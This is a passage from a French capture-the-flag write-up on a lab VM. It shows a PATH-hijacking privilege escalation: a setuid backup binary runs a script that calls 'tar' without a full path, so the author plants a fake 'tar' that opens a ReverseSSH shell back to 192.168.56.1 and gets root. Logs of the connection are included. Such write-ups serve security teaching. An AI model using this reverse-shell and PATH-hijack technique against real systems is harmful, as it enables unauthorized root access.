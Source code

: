 ```bash
#!/bin/bash
tar -cf mysql.tar /var/lib/mysql
sleep 30
```

Pour ce qui est du binaire :  

```plain
[moneygrabber@ppeshop ~]$ strings /usr/bin/backup
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
[]A\A]A^A_
/home/moneygrabber/backup.sh
;*3$"
GCC: (GNU) 8.3.1 20190507 (Red Hat 8.3.1-4)
```

Cet exécutable appelle le script avec le path complet mais ensuite le script utilise des utilitaires sans leur path. On va donc exploiter cette faiblesse en écrivant un script que l'on nommera *tar* et sera appelé à la place du vrai.  

Je lance d'abord [ReverseSSH](https://github.com/Fahrj/reverse-ssh) en local :  

```plain
$ sudo ./reverse-sshx64 -l -v -p 443
2021/12/22 21:54:15 Starting ssh server on :443
2021/12/22 21:54:15 Success: listening on [::]:443
```

Sur la VM :  

```plain
[moneygrabber@ppeshop ~]$ cat tar
#!/usr/bin/bash
./reverse-sshx64 -v -p 443 192.168.56.1
[moneygrabber@ppeshop ~]$ chmod 755 tar
[moneygrabber@ppeshop ~]$ export PATH=.:$PATH
[moneygrabber@ppeshop ~]$ /usr/bin/backup
```

E.T. téléphone maison :  

```plain
2021/12/22 21:54:42 Successful authentication with password from reverse@192.168.56.116:34922
2021/12/22 21:54:42 Attempt to bind at 127.0.0.1:8888 granted
2021/12/22 21:54:42 New connection from 192.168.56.116:34922: root on ppeshop reachable via 127.0.0.1:8888
```

Et enfin (le mot de passe demandé est celui par défaut de ReverseSSH) :  
